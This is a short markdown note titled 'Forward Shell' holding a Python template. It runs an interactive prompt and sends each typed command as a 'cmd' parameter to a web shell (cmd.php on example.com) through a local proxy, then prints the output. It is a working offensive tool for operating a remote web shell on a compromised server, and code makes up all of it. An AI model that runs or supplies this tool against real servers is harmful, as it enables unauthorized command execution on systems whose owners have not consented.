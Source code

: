 ```yaml
---
title: "Forward Shell"
date: 2024-7-11
tags: ["python", "shell", "forward", "template"]
---
```


---
### Python Forward Shell Template

<div>

```python
#!/usr/bin/env python3

from cmd import Cmd
import requests

class Term(Cmd):
    prompt = "shell> "

    def default(self, args):
        response = requests.get("http://example.com/cmd.php", params = {"cmd": args}, proxies={"http":"http://127.0.0.1:8080"})
        print(response.text)

term = Term()
term.cmdloop()
```

</div>

<br>